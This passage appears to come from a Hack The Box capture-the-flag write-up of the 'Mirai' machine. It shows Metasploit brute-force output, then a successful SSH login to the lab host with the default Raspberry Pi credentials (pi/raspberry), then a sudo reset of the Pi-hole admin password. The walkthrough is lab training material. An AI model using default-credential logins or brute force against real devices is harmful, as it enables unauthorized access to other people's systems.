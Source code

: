 ```
Tue Dec 19 17:32:24 2017 TLS: soft reset sec=0 bytes=33406651/-1 pkts=216009/0
Tue Dec 19 17:32:24 2017 VERIFY OK: depth=1, C=UK, ST=City, L=London, O=HackTheBox, CN=HackTheBox CA, name=htb, emailAddress=info@hackthebox.gr
Tue Dec 19 17:32:24 2017 VERIFY KU OK
Tue Dec 19 17:32:24 2017 Validating certificate extended key usage
Tue Dec 19 17:32:24 2017 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
Tue Dec 19 17:32:24 2017 VERIFY EKU OK
Tue Dec 19 17:32:24 2017 VERIFY OK: depth=0, C=UK, ST=City, L=London, O=HackTheBox, CN=htb, name=htb, emailAddress=info@hackthebox.gr
Tue Dec 19 17:32:25 2017 Outgoing Data Channel: Cipher 'AES-256-GCM' initialized with 256 bit key
Tue Dec 19 17:32:25 2017 Incoming Data Channel: Cipher 'AES-256-GCM' initialized with 256 bit key
Tue Dec 19 17:32:25 2017 Control Channel: TLSv1.2, cipher TLSv1/SSLv3 ECDHE-RSA-AES256-GCM-SHA384, 2048 bit RSA

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Okay, so our brute force failed using that dictionary list. What next?

##### RASPBERRY PI??

Read on a forum that "Pi-hole" and "Mirai" were hints.. so eventually ended up
trying the default `ssh` password for a Raspberry Pi device and wouldn't you
know it, it worked! `(user: pi defaultpasswd: raspberry)`

```
https://www.raspberrypi.org/documentation/remote-access/ssh/unix.md
```

````
$ ssh pi@10.10.10.48
pi@10.10.10.48's password: raspberry

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Dec 19 23:14:27 2017 from 10.10.15.14

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Ended up trying to reset the admin password for Pi-hole and poking around, but
that didn't seem to lead me anywhere. Maybe Pi-hole's sole purpose was to
provide the Raspberry Pi hint?

```
$ sudo pihole -a -p
Enter New Password (Blank for no password): 
Confirm Password: 
New password set
````
